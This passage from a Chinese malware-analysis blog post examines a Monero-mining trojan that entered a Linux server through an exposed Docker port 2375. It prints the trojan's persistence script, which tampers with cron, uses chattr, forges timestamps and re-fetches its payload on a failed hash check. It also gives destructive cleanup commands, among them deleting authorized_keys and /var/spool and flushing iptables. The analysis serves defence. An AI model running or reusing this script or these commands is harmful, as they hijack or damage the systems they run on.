
if [ -f /etc/cron.d/php5.6 ]; then rm -f /etc/cron.d/php5.6; fi
if [ -f /etc/cron.d/1m ]; then rm -f /etc/cron.d/1m; fi
if [ -f /etc/cron.d/1mm ]; then rm -f /etc/cron.d/1mm; fi
if [ -f /etc/cron.d/root ]; then rm -f /etc/cron.d/root; fi
if [ -f /etc/cron.d/crontab ]; then rm -f /etc/cron.d/crontab; fi
chattr -aui ${td} >;/dev/null 2>;&;1
if [ -d ${td} ]; then rm -rf ${td}; fi
touch -amr "$(find /usr/bin -type f|shuf -n1)" /usr/local/includes
echo "c2b7a9579176f9963d9926284018f92dcab36b6a31ddd9b4c43b6c172ee3e678 ${c4}"|sha256sum -c --quiet
if [ $? -eq 1 ]; then
chattr -aui /etc/cron.hourly ${c4} >;/dev/null 2>;&;1
rm -rf ${c4}
echo '#!/bin/sh' >;${c4}
echo -e "if [ \"\$(pgrep -f ${lex}|wc -l)\" -eq 0 ]; then\nnohup ${lex} >;/dev/null 2>;&;1 &;\nfi" >;>;${c4}
chmod 755 ${c4}
touch -amr "$(find /usr/bin -type f|shuf -n1)" ${c4}
fi
echo "2a70ec1434dc41508f64a739e82bad53fd580bdfe4910b6899a40b89c8cfb56c ${c5}"|sha256sum -c --quiet
if [ $? -eq 1 ]; then
if dp ${ut1}; then
chattr -aui ${c5} >;/dev/null 2>;&;1
rm -rf ${c5}
dpf ${c5} ${ush}
chmod 755 ${c5}
chown 0:0 ${c5}
touch -amr "$(find /usr/bin -type f|shuf -n1)" ${c5}
fi
fi
if [ "$(pgrep havaged|wc -l)" -ne 0 ]; then pkill -9 -f havaged; rm -f /usr/sbin/havaged; fi
if [ "$(pgrep muhsti|wc -l)" -ne 0 ]; then shutdown -r now >;/dev/null 2>;&;1; reboot -f >;/dev/null 2>;&;1; fi
sysctl -w vm.nr_hugepages=128 >;/dev/null 2>;&;1
${c4} >;/dev/null 2>;&;1
exit 0接着还是删掉一些常见的cron任务。并清空/usr/local/includes文件夹的内容，具体作用暂不清楚。然后检查/etc/cron.hourly/agetty文件（木马代码）的hash值，没有或不符则重新下载自己。以及重新设置虚拟内存的大小，最大限度的使用系统的性能。
木马源码的分析到这里就结束了。可以执行下面命令彻底清理掉该木马。
crontab -r
pkill -9 -f /bin/exin
chattr -aui /bin/config.json /bin/exin /etc/cron.hourly/agetty /usr/bin/unattended-upgrades ~/.ssh/authorized_keys /etc/cron.d/spool /etc/crond /var/spool/mail/root /etc/cron.d/* /var/spool /var/spool/cron /var/spool/cron/*
rm -rf /bin/config.json /bin/exin /etc/cron.hourly/agetty /usr/bin/unattended-upgrades ~/.ssh/authorized_keys /etc/cron.d/spool /etc/crond /var/spool/mail/root /var/spool /var/spool/cron /var/spool/cron/
echo -e 'SHELL=/bin/bash\nPATH=/sbin:/bin:/usr/sbin:/usr/bin\nMAILTO=root' >/etc/crontab
iptables -F讨论一些关于该木马中有意思的点。
另外，和这位同学讨论之后，是因为开放了Docker 2375 端口入侵造成的。Docker是把2375端口作为非加密端口暴露出来，一般是用在测试环境中。此时，没有任何加密和认证过程，只要知道Docker主机的IP，任何人都可以管理这台主机上的容器和镜像。关于这个漏洞很早之前就有了，只是在线上做测试没有考虑到这个问题，造成了这次服务器挖矿木马的出现。
而且因为门罗币的高匿名性，暂时也没法查到木马作者的挖矿收益。或许这也是现在大部分黑客偏爱门罗币的原因吧。
就先写到这里吧，第一次写关于挖矿木马的分析文章，文中分析有不足之处还望各位大佬多多指点。

推荐阅读
原创投稿作者：zgao